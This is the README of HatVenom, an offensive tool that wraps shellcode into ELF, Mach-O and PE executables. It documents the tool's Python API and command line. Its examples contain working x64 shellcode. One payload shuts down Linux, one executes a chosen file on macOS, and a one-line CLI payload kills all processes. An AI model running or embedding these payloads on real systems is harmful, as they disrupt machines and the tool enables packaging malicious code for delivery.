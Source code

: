 # HatVenom

<a href="https://github.com/EntySec/Ghost">
    <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
</a>
<a href="https://github.com/EntySec/RomBuster">
    <img src="https://img.shields.io/badge/EntySec-%20RomBuster-3572a5.svg">
</a>

HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data or inject shellcode.

* `ip_bytes(ip)` - Converts IP address to bytes allowed by shellcode.
* `port_bytes(port)` - Converts numeric port to bytes allowed by shellcode.
* `string_bytes(string)` - Converts string to bytes allowed by shellcode.
* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [--format FORMAT] [--arch ARCH] [--shellcode SHELLCODE]
                [--offsets OFFSETS] [-o OUTPUT] [-l]

Powerful payload generation and shellcode injection tool that provides support
for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  --format FORMAT       Platform to generate for.
  --arch ARCH           Architecture to generate for.
  --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
  -l, --list            List all formats and platforms.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/EntySec-%20RomBuster-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-%20Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-%20CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>
